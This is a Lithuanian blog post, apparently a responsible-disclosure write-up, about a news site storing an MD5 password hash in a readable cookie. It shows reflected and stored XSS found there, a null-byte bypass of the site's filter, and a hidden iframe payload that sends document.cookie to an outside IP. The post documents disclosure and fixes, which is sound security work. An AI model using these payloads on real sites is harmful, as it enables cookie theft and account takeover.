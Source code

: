 ﻿---
layout:     post
title:      "Kas skaito VŽ slapukus?"
date:       2022-05-02 08:00:00
categories: HackAndTell
cover:      manovz.svg); background-color:rgb(187,1,42); background-color:rgb(187,1,42
permalink:  /lt/blog/vz-slapukai
---
Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VŽ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:

![VŽ slapukų sąrašas](vz_slapukai.png "Slapukai")

Ten buvo slapukų su įdomiu pavadinimu [evercookie](https://en.wikipedia.org/wiki/Evercookie), bet ši istorija ne apie tai. Labiausiai kliuvo `VzLtLoginInfo`, kurio reikšmė buvo mano elektroninio pašto adresas, ir `VzLTLoginInfoPwd`, kurio reikšmė buvo 32-iejų raidžių ir skaičių kratinys. Kadangi savo slaptažodį puikiai žinau, greitai [patikrinau](https://emn178.github.io/online-tools/md5.html) hipotezę, kad tai jo MD5 reikšmė.

### Web programų 101

Reikia pasakyti, kad tai rimtas anti-pattern'as. Vartotojo slaptažodis turi būti perduodamas į serverį vieną vienintelį kartą per šifruotą HTTPS prisijungimą. Serveris nustato vartotojo tapatybę ir stateful architektūros atveju sukuria vartotojui sesiją. Tam serveris turi sugeneruoti tikrai atsitiktinį identifikatorių, kurio neįmanoma atspėti. Ir ne, [Math.random()](https://securitylab.github.com/advisories/GHSL-2020-228-YMFE-yapi/) ir kiti PRNG algoritmai tam netinka. Naršyklė gautą sesijos identifikatorių išsaugo pvz. slapuke.

Toliau naršyklė ir serveris bendrauja tik per sesijos identifikatorių. Vartotojo slaptažodis naršyklėje niekur nesaugomas jokiame pavidale iš kurio galima būtų atkurti jo pradinę reikšmę (MD5 yra super greitas, super pasenęs algoritmas, leidžiantis milžinišku greičiu surasti pradinį slaptažodį). Vartotojui atsijungus (angl. sign out) sesija serveryje yra panaikinama ir senas sesijos identifikatorius nebetenka jokios reikšmės.

### Na ir kas?

Galite paklausti: "Na ir kas čia tokio, kad slaptažodžio MD5 reikšmė išsaugoma slapuke? Juk ji išsaugoma mano kompiuteryje, mano naršyklėje ir neprieinama niekam kitam. Tik man ir serveriui, kuris ir taip mano slaptažodį žino." Galima būtų tiesiog pasijuokti iš tokio architektūrinio sprendimo ir tiek, bet pabandykime pademonstruoti jo įtaką saugumui.

Kaip matome `VzLtLoginInfoPwd` slapukas neturi `HttpOnly` atributo (t.y. JavaScript puslapio kodas turi teisę jį perskaityti) ir išrašytas visiems [vz.lt](https://vz.lt) subdomain'ams. Tai reiškia kad XSS pažeidžiamumo atveju bet kokiame iš [vz.lt](https://vz.lt) subdomain'ų ([www.vz.lt](https://www.vz.lt), [mano.vz.lt](https://mano.vz.lt), [login.vz.lt](https://login.vz.lt) ir t.t.) kenkėjiškas kodas gali jį pavogti. Sėkmingos vagystės atveju galima atkurti pradinį slaptažodį, bet tai net nesvarbu, nes pavogta MD5 reikšmė pati savaimė yra "prisijungimo bilietas". **Tačiau skirtingai nuo sesijos identifikatoriaus, pavogta reikšmė galioja tiek, kiek galioja vartotojo slaptažodis.**

### Ieškome XSS

Pabandykime surasti XSS VŽ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).

Serveris atsako pranešimu:

![ERROR: Script asdf is missing!](vz_script_asdf_is_missing.png "ERROR: Script asdf is missing!")

Tai, kad serveris "atspindi" mūsų įvestą reikšmę yra geras ženklas. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=<i>asdf</i>) ir gauname:

![SQL Injection. System will not process this request.](vz_sqli.png "SQL Injection. System will not process this request.")

Tas pats ir su [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;](https://www.vz.lt/apps/pbcs.dll/exec?name=<). Panašu į kažkokį savadarbį [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) (Web Application Firewall). Galima tik spėlioti prie ko čia SQL injekcija. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<i>asdf</i>) ir matome:

![ERROR: Script (italic pradžia) asdf (italic pabaiga) is missing!](vz_script_asdf_is_missing_italic.png "ERROR: Script asdf is missing!")

Įterpę nulinį baitą sėkmingai apėjome WAF, o serveris atvaizdavo mūsų HTML kodą. [Hello PHP](https://www.php.net/manual/en/security.filesystem.nullbytes.php)? :)

Tačiau įvedę [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;script>alert(1)&lt;/script>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<script>alert(1)</script>) serveris atsako:

![Access denied. Error 15. What happened? The request was blocked by security rules. Your IP: empty. Proxy IP: 107.154.76.234. Incident ID: empty. Powered by Imperva.](vz_access_denied.png "Access denied")

Panašu, kad VŽ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/) randame du įrašus apie XSS VŽ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:

- [https://www.openbugbounty.org/reports/533348/](https://www.openbugbounty.org/reports/533348/)
- [https://www.openbugbounty.org/reports/661990/](https://www.openbugbounty.org/reports/661990/)

Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikė iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).

![VŽ akademija alert pranešimas su visais slapukais.](vz_akademija_xss.png "Alert su slapukais")

### Kas iš to alert?

Vietoj `alert` kenkėjiškas kodas galėtų pavogti užklydusio vartotojo slapukus. Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikėjo įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas būtų pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.

Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiustų [vz.lt](https://vz.lt) slapukus trečioms šalims.

<details>
  <summary style="cursor:pointer">▶ Proof of Concept:</summary>

  <script src="https://gist.github.com/jarlob/22dc518fbfbaa9b64653a220f9dce2e9.js"></script>
</details><br>

### XSS komentaruose Nr. 1

Komentarai - tai taikinys Nr. 1, nes leidžia įvesti kažką, kas bus parodyta kitiems vartotojams. Komentuojančio vartotojo vardas buvo tvarkingai atvaizduojamas net jei tas vardas turėjo specialių HTML simbolių kaip `Vardas<script>alert(1)</script>`. Tačiau jei į tokio vartotojo komentarą kas nors atsakydavo, jo vardas buvo interpretuojamas kaip HTML kodas. Taigi iš esmės užteko tam pačiam vartotojui atsakyti į savo paties komentarą, kad straipsnis su tokių komentaru butų "apkrėstas" kenkėjišku JavaScript kodų:  

![Stored VŽ XSS. Vartotojo su vardu &lt;script&gt;console.log(13)&lt;/script&gt; komentaras ir naršyklės developer tools console tabas su išvestu skaičiumi 13](vz_stored_xss1.png "Stored XSS")

Tikras kenkėjiškas kodas galėjo lengvai pamodifikuoti antraštę, kad nesimatytų `<i>` ir `<script>` pradiniame pranešime.  
Šis Stored XSS yra pavojingesnis už prieš tai aprašytą Reflected XSS nes:
1. Nereikia niekam siųsti specialiai paruoštų nuorodų arba apkrėtinėti trečiųjų šalių puslapių. Galima įterpti savo kodą tiesiai į VŽ komentarus. Aukai užtenka tiesiog atsiversti komentarų puslapį.  
2. WAF neapsaugo nuo tokio tipo atakos, nes nesugeba atskirti kur yra legitimus kodas, o kur yra įterptas.  

### XSS komentaruose Nr. 2

Po pranešimo VŽ pataisė šią spragą, o taip pat pradėjo filtruoti vartojo vardus vartotojo profilio nustatymuose. Tačiau pastebėjau dar vieną šio XSS atmainą. Tuo metu kai nieko neįtariantis vartotojas tik paspausdavo "Atsakyti" į kenkėjiško vartotojo komentarą, jo vardas vis dar būdavo interpretuojamas kaip HTML:

![Stored VŽ XSS. Vartotojo su vardu Mr&lt;script src=//45.rs&gt; komentaras ir iššokantis langas su tekstu www.vz.lt OK](vz_stored_xss2.png "Stored XSS")

Tai yra irgi Stored XSS, nors kiek mažiau pavojingas. Aukai reikėjo ne tik aplankyti užkrėsto straipsnio komentarus, bet ir paspausti "Atsakyti". Nors kai vartotojas norėdavo pasikeisti vardą, jis buvo filtruojamas, VŽ pamiršo filtruoti vartotojų vardus registracijos metų.

### Chronologija:

2022.01.28 - Išsiųstas el. laiškas VŽ Interneto produktų vystymo skyriaus vadovui ir [NKSC](https://www.cert.lt).  
2022.01.28 - Gautas patvirtinimas iš NKSC.  
2022.02.14 - NKSC pranešė, kad susisiekė su VŽ 2022.02.03 d. Dėl neaiškių aplinkybių mano el. laiškas jų nepasiekė.  
2022.02.14 - VŽ padėkojo ir pranešė, kad XSS ištaisytas, o "slapukų naudojimo planuojama atsisakyti".  
2022.03.09 - Išsiųstas el. laiškas apie Stored XSS VŽ komentaruose VŽ Interneto produktų vystymo skyriaus vadovui ir NKSC.  
2022.01.28 - NKSC pranešė, kad susisiekė su VŽ telefonu.  
2022.03.09 - VŽ padėkojo ir pranešė, kad pažeidžiamumas ištaisytas.  
2022.03.09 - Išsiųstas el. laiškas apie XSS kai vartotojas spaudžia "Atsakyti".  
2022.05.02 - VŽ vis dar saugo slaptažodžio hash reikšmę slapuke. Kiti pažeidžiamumai ištaisyti.  
